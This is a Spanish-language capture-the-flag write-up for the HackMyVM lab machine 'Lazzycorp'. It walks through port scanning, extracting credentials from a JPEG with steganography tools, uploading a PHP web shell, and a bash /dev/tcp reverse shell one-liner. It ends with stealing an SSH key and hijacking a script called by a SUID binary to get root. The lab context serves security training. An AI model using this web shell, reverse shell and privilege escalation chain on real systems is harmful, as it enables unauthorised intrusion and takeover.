 # Lazzycorp - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Lazzycorp** de la
plataforma HackMyVM.\
Durante la explotación tocaremos las siguientes técnicas:

- Escaneo de puertos
- Leak de información
- Enumeración de directorios
- Steganografía
- Subida de archivos maliciosos
- Escalada de privilegios con SUID

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

``` bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.157
```

``` java
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.1.152
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 114      119          4096 Jul 16 12:35 pub
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 46:82:43:4b:ef:e0:b0:50:04:c0:d5:2c:3c:5c:7d:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2hBHERpgM+J9HRllTqtT7svnthPH2aDlbAWWgSYdDMLzWxN6dKwOHyr1Zr1DrRQHFfNb2deeXGDwX8zjVjS/HDAFGMY4/5rI6nvM5WnSX4Rl2SSiMW6BhscZnoOd4OyveGZ10sGPKxJc8Rbt9v6hpJcjq7clD0ALEhJHMQf1>
|   256 52:79:ea:92:35:b4:f2:5d:b9:14:f0:21:1c:eb:2f:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBje/WVSD3o77qSU8lM+VaPHiFGQtc0MJxG30xN+FrrDr91CFD4sWxckAfA2dkOodpdYUlzOEXKUzDrJdGnVfC4=
|   256 98:fa:95:86:04:75:31:39:c6:60:26:9e:26:86:82:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAjJ53/CHL8BZslI+w4Uz5VYdWp3ERTgae6o9+0ouFdN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/cms-admin.php /auth-LazyCorp-dev/
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: LazyCorp | Empowering Devs
MAC Address: 08:00:27:DA:33:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Vemos que el puerto FTP permite login anónimo. Dentro del directorio **pub** encontramos una imagen llamada note.jpg:
```bash
ftp> ls
229 Entering Extended Passive Mode (|||33691|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1366786 Jul 16 12:35 note.jpg
226 Directory send OK.
ftp> 
````
Utilizando stegseek conseguimos encontrar credenciales para el usuario dev:

```shell
stegseek note.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "creds.txt".
[i] Extracting to "note.jpg.out".
````
```bash
cat note.jpg.put

Username: dev
Password: d3v3l0pm3nt!nt3rn 
````
Guardamos las credenciales y accedemos al puerto 80, donde encontramos la web:
![alt text](./posts/img/lazzycorp001.png)

Al no haber nada funcional, procedemos a enumerar directorios con dirsearch:
```bash
dirsearch -u http://192.168.1.157/
````
```bash
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/alejandro/Escritorio/Maquinas/Lazzycorp/content/reports/http_192.168.1.157/__25-08-25_17-43-12.txt

Target: http://192.168.1.157/

[17:43:12] Starting: 
[17:43:41] 301 -  313B  - /blog  ->  http://192.168.1.157/blog/
[17:43:41] 403 -  278B  - /blog/
[17:44:19] 200 -   55B  - /robots.txt
[17:44:21] 403 -  278B  - /server-status
[17:44:21] 403 -  278B  - /server-status/
[17:44:33] 301 -  316B  - /uploads  ->  http://192.168.1.157/uploads/
[17:44:33] 403 -  278B  - /uploads/

Task Completed
````
```txt
Disallow: /cms-admin.php
Disallow: /auth-lazycorp-dev/
````
Probamos a ver si existía un login.php en /auth-lazycorp-dev/ y reutilizamos las credenciales encontradas:
![alt text](./posts/img/lazzycorp003.png)

Logramos entrar y encontramos un sistema de subida de módulos:
![alt text](./posts/img/lazzycorp004.png)

Subimos un script **.php** malicioso:
![alt text](./posts/img/lazzycorp005.png)

Los archivos se almacenan en /uploads, confirmando la ubicación de nuestra shell:
![alt text](./posts/img/lazzycorp006.png)

Nos enviamos una reverse shell:
```bash
nc -lvnp 9001
````
```bash
http://192.168.1.157/auth-lazycorp-dev/uploads/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.152/9001 0>%260"
````
## Escalada de privilegios
El directorio de arvind es accesible con www-data. Conseguimos la clave id_rsa para iniciar sesión por SSH como arvind:
```bash
www-data@arvindlazycorp:/home/arvind/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
````
En el directorio de inicio encontramos un binario SUID llamado reset. Al no poder ver el código fuente, usamos strace:
```powershell
strace ./reset
execve("./reset", ["./reset"], 0x7ffc573063f0 /* 57 vars */) = 0
brk(NULL)                               = 0x55c1ffdac000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f46b376c000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No existe el fichero o el directorio)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=121407, ...}) = 0
mmap(NULL, 121407, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f46b374e000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0p\236\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 840, 64) = 840
fstat(3, {st_mode=S_IFREG|0755, st_size=2003408, ...}) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 840, 64) = 840
mmap(NULL, 2055800, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7f46b3558000
mmap(0x7f46b3580000, 1462272, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x28000) = 0x7f46b3580000
mmap(0x7f46b36e5000, 352256, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x18d000) = 0x7f46b36e5000
mmap(0x7f46b373b000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1e2000) = 0x7f46b373b000
mmap(0x7f46b3741000, 52856, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f46b3741000
close(3)                                = 0
mmap(NULL, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f46b3555000
arch_prctl(ARCH_SET_FS, 0x7f46b3555740) = 0
set_tid_address(0x7f46b3555a10)         = 232827
set_robust_list(0x7f46b3555a20, 24)     = 0
rseq(0x7f46b3555680, 0x20, 0, 0x53053053) = 0
mprotect(0x7f46b373b000, 16384, PROT_READ) = 0
mprotect(0x55c1c2b94000, 4096, PROT_READ) = 0
mprotect(0x7f46b37a8000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0x7f46b374e000, 121407)          = 0
setuid(0)                               = -1 EPERM (Operación no permitida)
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
mmap(NULL, 36864, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_STACK, -1, 0) = 0x7f46b3763000
rt_sigprocmask(SIG_BLOCK, ~[], [CHLD], 8) = 0
clone3({flags=CLONE_VM|CLONE_VFORK|CLONE_CLEAR_SIGHAND, exit_signal=SIGCHLD, stack=0x7f46b3763000, stack_size=0x9000}, 88) = 232828
munmap(0x7f46b3763000, 36864)           = 0
rt_sigprocmask(SIG_SETMASK, [CHLD], NULL, 8) = 0
wait4(232828sh: 1: /usr/bin/reset_site.sh: not found
, [{WIFEXITED(s) && WEXITSTATUS(s) == 127}], 0, NULL) = 232828
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f46b3597df0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=232828, si_uid=1000, si_status=127, si_utime=0, si_stime=0} ---
exit_group(0)                           = ?
+++ exited with 0 +++
````
Detectamos que ejecuta /usr/bin/reset_site.sh. Contenido del script:
```bash
#!/bin/bash

echo "[*] Resetting website from backup..."

# Remove current site
rm -rf /var/www/html/*
# Restore from backup
cp -r /opt/backup/* /var/www/html/
# Set correct ownership
chown -R www-data:www-data /var/www/html/

echo "[+] Done resetting."
````
Modificamos el script para obtener una shell root:
```bash
#!/bin/bash

sudo bash
````
Ejecutamos ./reset:
```bash
arvind@arvindlazycorp:~$ ./reset 
root@arvindlazycorp:/home/arvind# id
uid=0(root) gid=0(root) groups=0(root)
root@arvindlazycorp:/home/arvind# 
````

¡Y somos root! 🎉